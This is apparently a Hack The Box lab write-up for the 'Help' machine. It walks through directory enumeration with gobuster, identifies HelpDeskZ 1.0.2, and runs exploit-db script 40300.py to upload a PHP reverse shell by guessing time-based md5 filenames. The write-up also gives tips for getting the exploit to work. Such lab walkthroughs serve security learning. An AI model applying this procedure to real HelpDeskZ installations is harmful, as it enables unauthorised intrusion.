 # 10 - HTTP


# Index
![](vx_images/4966461614702.png)

Whenever I see the default apache page I get suspicious. Usually there is a misconfiguration or a hidden directory under development. The first thing I do is go to robots.txt and admin to check if they exist. If that fails, run gobuster on it.

# Gobuster
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/help]
└──╼ $ cat gobuster/initial-x.log  | grep -v 403
/index.html           (Status: 200) [Size: 11321]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.121/javascript/]
/support              (Status: 301) [Size: 314] [--> http://10.10.10.121/support/]
/.                    (Status: 200) [Size: 11321]
```

Support sounds interesting, just a filename can reveal a lot about how the server works.


# HelpDeskZ


![](vx_images/3571627748640.png)

HelpDeskZ is an open source ticket software. We can download and enumerate the file structure for potential locations.

```bash 
┌─[user@parrot]─[10.10.14.14]─[~/htb/help/]
└──╼ $ git clone https://github.com/evolutionscript/HelpDeskZ-1.0
┌─[user@parrot]─[10.10.14.14]─[~/htb/help/HelpDeskZ-1.0]
└──╼ $ grep -ri version .  | tail -3 
./readme.html:Version: 1.0.2 from 1st June 2015<br />
./readme.html:To upgrade your HelpDeskZ from previous versions, please read the file UPGRADING.txt
./views/staff/dashboard.html:            <div>HelpDeskZ version {{ settings.helpdeskz_version }}</div>

```

Good, there is a way to tell the version, with luck we may even find an exploit on exploitdb.


# readme.html


![](vx_images/2249826623279.png)

Version: 1.0.2, at this point we can look for possible password locations but it's highly unlikely. This should be our last resort. Instead we can search for public exploits for this version against the exploitdb database.


# Arbitrary File Upload
![](vx_images/1175399586614.png)


Good thing about the this exploit it doesn't require authentication.

# Ticket submission
![](vx_images/3451071007768.png)

According to the author of the exploit, this version allows .php file uploads but obfuscates them with md5 hash of the time they are uploaded. What the exploit does is simple, it tries to guess the hash by recalculating the md5 of the current time. If you are in a different time zone, you have to adjust the time in the script as it uses time.time() to get current time. Date is sent from the server as a header you may want to check it out to compare with your local time if the exploit isn't working. 


php-reverse-shel.php is the exploit I will be using.

# Upload Directories
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/help/HelpDeskZ-1.0]
└──╼ $ find . -type d  |grep uploads
./uploads
./uploads/articles
./uploads/tickets
```

Second argument to the exploit is the upload address, uploads/tickets sounds like a good location to upload tickets.


```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/help]
└──╼ $ python2 40300.py http://10.10.10.121/support/uploads/tickets/ rev.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
```

It might take a while because it is guessing the filename.


# Shell
![](vx_images/3951275375854.png)
